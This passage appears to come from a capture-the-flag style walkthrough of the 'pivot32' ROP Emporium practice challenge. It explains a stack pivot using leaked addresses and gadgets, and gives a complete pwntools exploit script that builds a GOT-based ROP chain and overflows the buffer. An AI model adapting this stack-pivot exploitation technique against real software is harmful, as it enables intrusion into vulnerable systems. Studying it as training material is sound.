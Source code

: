 ```
 8048814:       90                      nop
 8048815:       c9                      leave
 8048816:       c3                      ret
```
Ah, I see! Nothing to worry about, it just asks us to first send in our ROP chain when it discloses us the address  where we need to jump to and use that in the second input, where we actually do the overflow and need to make a jump to that address, which can easily be achieves using the ```pop eax; ret``` and ```xchg eax, esp; ret``` gadgets previously discovered.
Another, very important, quirk to notice is that we need to satisfy the buffer size for ```read```, otherwise it will hang on our input and wait for more bytes.
This level seems to be much easier than the previous one. Let's get to our final script.

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "i386"
context.bits = 32
context.endian = "little"
context.os = "linux"

# Useful ROP gadgets
foothold_plt  = p32(0x08048520) # foothold_function@plt
foothold_reloc = p32(0x0804a024) # .got.plt location (points to actual address of foothold_function)
dereference_eax = p32(0x08048830) # : mov eax, dword ptr [eax] ; ret
pop_ebx = p32(0x080484a9) # : pop ebx ; ret
add_eax_ebx = p32(0x08048833) # : add eax, ebx ; ret
call_eax = p32(0x080485f0) # : call eax
pop_eax = p32(0x0804882c) # : pop eax ; ret
xchg_eax_esp = p32(0x0804882e) # : xchg eax, esp ; ret
offset_to_ret2win = p32(503)

e = ELF("./pivot32")

io = e.process()

first_output = io.recvuntil(">")
disclosed_address = int([x for x in first_output.split() if x.startswith(b'0x')][0], 16)

# ROP Chain
first_input = foothold_plt
first_input += pop_eax
first_input += foothold_reloc
first_input += dereference_eax
first_input += pop_ebx
first_input += offset_to_ret2win
first_input += add_eax_ebx
first_input += call_eax
first_input += b'A' * (0x100 - len(first_input))

io.sendline(first_input)

# Stack Smashing
second_input = b'A' * 44
second_input += pop_eax
second_input += p32(disclosed_address)
second_input += xchg_eax_esp

io.sendline(second_input)

print(io.recvrepeat())
```
